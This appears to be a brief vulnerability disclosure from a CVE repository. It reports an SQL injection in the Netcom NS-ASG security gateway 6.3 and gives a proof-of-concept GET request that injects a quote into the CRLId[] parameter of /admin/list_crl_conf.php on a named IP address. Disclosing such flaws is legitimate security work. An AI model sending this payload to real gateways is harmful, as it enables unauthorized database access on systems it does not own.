 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ：/admin/list_crl_conf

Poc：
```
GET /admin/list_crl_conf.php?action=delete&CRLId[]=111' HTTP/1.1
Host: 223.210.14.6:8081
Cookie: PHPSESSID=cbfc5417bd10566c912aac70113017c6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
<img width="510" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/c5d3c367-3dcb-4f37-b21e-da7654b0d201">

